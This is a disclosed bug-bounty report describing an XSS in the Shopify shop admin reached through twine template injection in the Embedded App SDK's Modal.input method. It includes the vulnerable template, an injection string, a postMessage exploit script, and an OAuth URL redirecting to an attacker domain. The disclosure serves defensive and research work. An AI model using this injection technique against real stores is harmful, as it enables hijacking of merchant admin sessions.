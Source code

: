 # XSS in $shop$.myshopify.com/admin/ via twine template injection in "Shopify.API.Modal.input" method when using a malicious app

## Report Details
- **Report ID**: 217790
- **URL**: https://hackerone.com/reports/217790
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-04-02T02:33:01.281Z
- **Disclosed**: 2017-06-01T16:42:17.056Z

## Reporter
- **Username**: bored-engineer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
#Description
The Shopify [Embedded App SDK](https://help.shopify.com/api/sdks/merchant-apps/embedded-app-sdk) is used to facilitate limited interactions with parent page (`/admin/apps/$id`) from an embedded app within the shop admin interface. The SDK has multiple methods which allow an app to interact with the user which execute in the context of the admin domain and pass information back to the app. These UI elements are rendered from predefined templates using [lodash](https://lodash.com)'s [_.template](https://lodash.com/docs/4.17.4#template) method. While the method automatically provides input escaping the "input" template (used by the `Shopify.API.Modal.input` method) assigns a value to a special `data-define` attribute. While it's not possible to escape the attribute context, because the escaping is not fully context-aware it is possible to inject additional data into the attribute which is later interpreted by [twine](http://shopify.github.io/twine/). Because twine does not execute in a sandbox this template becomes an eval primitive and it possible to obtain XSS in the context of the parent application. 

#Technical Details
When the `Shopify.API.Modal.input` method the following "input" template is rendered using [lodash](https://lodash.com)'s [_.template](https://lodash.com/docs/4.17.4#template) method: 
```html
...
<div class="ui-modal__body" data-define="{typedInput: &#39;[%= value %]&#39;}">
...
<label class="next-label" for="text-a10e7047a92878fc20031f40da0b5231"></label>
<input type="text" id="text-a10e7047a92878fc20031f40da0b5231" data-bind="typedInput" autofocus="autofocus" class="next-input" />
...
<button class="btn close-modal [%= buttonClass %]" data-bind-event-click="closeModal({result: true, data: typedInput})" type="button" name="button">[%= okButton %]</button>
...
```
The `typedInput` parameter is initialized from the `value` template parameter, bound to the text input, and finally used when the "okButton" is clicked. The data binding is handled by Shopify's [twine](http://shopify.github.io/twine/) JS library. Unfortunately because  [_.template](https://lodash.com/docs/4.17.4#template) is not fully context aware it will not provide JSON escaping for this parameter. For example if `value` is set to `some'value` the following invalid JSON will be created in the `data-define` attribute:
```
{typedInput: 'some'value'}
```
Normally this would just break the intended functionality, however if we analyze [twine](http://shopify.github.io/twine/) we can discover that this type of injection can actually result in arbitrary JS execution. Twine evaluates parameters using the (wrapFunctionString)[https://github.com/Shopify/twine/blob/24c4ccfccf5b50937e6d9e433676651549be1497/dist/twine.js#L373] method:
```js
wrapFunctionString = function(code, args, node) {
  var e, error, keypath;
  if (isKeypath(code) && (keypath = keypathForKey(node, code))) {
    if (keypath[0] === '$root') {
      return function($context, $root) {
        return getValue($root, keypath);
      };
    } else {
      return function($context, $root) {
        return getValue($context, keypath);
      };
    }
  } else {
    code = "return " + code;
    if (nodeArrayIndexes(node)) {
      code = "with($arrayPointers) { " + code + " }";
    }
    if (requiresRegistry(args)) {
      code = "with($registry) { " + code + " }";
    }
    try {
      return new Function(args, "with($context) { " + code + " }");
    } catch (error) {
      e = error;
      throw "Twine error: Unable to create function on " + node.nodeName + " node with attributes " + (stringifyNodeAttributes(node));
    }
  }
};
``` 
The method wraps the attribute value in a [with](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with) block to provide named variables and passes it to a [Function](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) constructor which acts as a eval primitive. This means any injection will result in JavaScript execution. For example, if the following data is used for the `value` template parameter it will flow as follows:
```
'-alert(document.domain)-'
``` 
This will result in a `data-define` attribute with the following value:
```js
{typedInput:''-document.domain-''}
```
This will result in the following code executing within twine:
```js
with($context) {
  with($registry) {
    return {typedInput: ''-alert(document.domain)-''}
  }
}
```
Putting this all together with the SDK we get the following script:
```js
window.parent.postMessage(JSON.stringify({
  message: "Shopify.API.Modal.input",
  data: {
    message: {
      message: "", 
      value: "'-alert(document.domain)-'",
    }
  }
}), "*");
```
#Exploitability
You need to convince an administrator to authorize your malicious application, however the exploit does not require any specific permissions to trigger so an admin may be more willing to authorize the application. 

#Proof of Concept
I've created an example malicious application associated with my partner account `shopify-whitehat-1@bored.engineer` to demonstrate the issue...
Open the following URL on on `$your-shop$.myshopify.com`:
```
/admin/oauth/authorize?client_id=5b7bd427b8caa69610bf85d1c87d4a04&scope=read_products&redirect_uri=https://attackerdoma.in/a4d76231-8657-48ed-8800-f1b02c7bb2ff.html&state=nonce
```
After authorizing the application an alert should appear on the `/admin` window containing `document.domain`.

#Remediation
The "input" template should be updated to make the `value` parameter context-aware, perhaps wrapping in a `JSON.stringify` call.

## Attachments
No attachments
